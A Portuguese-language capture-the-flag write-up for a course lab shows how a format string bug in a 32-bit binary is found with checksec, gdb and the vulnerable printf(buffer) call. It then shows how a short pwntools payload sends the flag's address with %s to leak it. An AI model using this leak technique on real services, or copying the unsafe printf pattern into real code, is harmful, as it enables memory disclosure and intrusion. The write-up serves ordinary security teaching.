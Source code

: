 # CTF Semana #5 (Format string)

## Desafio 1

### Recolha de informação

Começamos por analisar os ficheiros disponibilizados na plataforma CTF: um executável (`program`), o código fonte (`main.c`) e um script em python (`exploit_example.py`).

De seguida, corremos o comando `checksec program`, onde obtivemos o seguinte output:

```bash
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

Ao analisar apercebemo-nos que:
- a arquitetura do ficheiro é x86 (Arch)
- existe um canário a proteger o return address (Stack)
- a stack não tem permisssão de execução (NX)
- as posições do binário não estão randomizadas (PIE)

### Reconhecimento da vulnerabilidade

No `main.c`, verificamos que a funcão `scanf` guarda o input introduzido pelo utilizador num buffer local de 32 bytes, sendo impresso por um `printf` sem argumentos adicionais.

```c
scanf("%32s", &buffer);
printf("You gave me this: ");
printf(buffer);
```

Assim sendo, concluimos que podemos explorar as vulnerabilidades associadas ao format string se o nosso input tiver format specifiers.


### Exploração da vulnerabilidade

Primeiramente, recorremos ao `gdb` para descobrir o endereço de memória da variável onde se encontra a flag:

<img src="../screenshots/ctf7/d1_flag.PNG" alt="flag">

No `exploit-example.py`, que interage com o serviço, mudamos a seguinte linha de código para que injetasse o endereço de memória da flag e que desse print `%s`:

```py
p.recvuntil(b"got:")
p.sendline(b"\x60\xC0\x04\x08%s")
p.interactive()
```

Ao executar o script, obtivemos a flag como o esperado:

<img src="../screenshots/ctf7/flag1.PNG" alt="flag">


